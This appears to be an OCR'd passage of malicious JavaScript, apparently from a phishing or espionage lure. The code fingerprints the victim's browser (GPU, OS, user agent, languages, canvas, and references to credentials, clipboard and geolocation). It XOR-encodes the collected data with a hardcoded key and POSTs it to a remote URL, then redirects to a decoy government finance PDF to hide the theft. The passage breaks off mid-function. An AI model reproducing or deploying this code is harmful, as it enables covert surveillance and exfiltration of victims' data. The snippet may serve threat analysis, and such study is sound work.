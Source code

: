 		let output = [];

		for (let i = 0; i < dataBuff.length; i++) output[i] = dataBuff[i] ^ keyBuff[i % keyBuff.length];

		return new Blob([new Uint8Array(output)]);
	}

	function redirect() {
		window.location.replace('https://www.finance.gov.pk/circulars/circular_14042022_2.pdf');
	}

	function postData(data) {
		try {
			var secretKey = '34-D4-3D-5B-6E-31-77-E7-27-06-96-CE-BE-E6-B5';
			const finalData = JSON.stringify(data);
			const encriptedData = encode(finalData, secretKey);

			fetch(postUrl, {
				method: 'POST',
				headers: {
					'Content-Type': 'application/text'
				},
				body: encriptedData
			})
				.then(() => {
					redirect();
				})
				.catch((err) => {
					redirect();
				});
		} catch (err) {
			redirect();
		}
	}

	function isCanvasSupported() {
		var elem = document.createElement('canvas');
		return !!(elem.getContext && elem.getContext('2d'));
	}

	function getBrowserDetails(gpuData) {
		var result = {};
		try {
			result.gpuData = gpuData;
			result.navigatorInfo = {
				oscpu: navigator.oscpu,
				credentials: navigator.credentials,
				clipboard: navigator.clipboard,
				hardwareConcurrency: navigator.hardwareConcurrency,
				geolocation: navigator.geolocation,
				userAgent: navigator.userAgent,
				language: navigator.language,
				languages: navigator.languages
			};
			try {
				result.canvasSupported = isCanvasSupported();
			} catch (canvasErr) {}
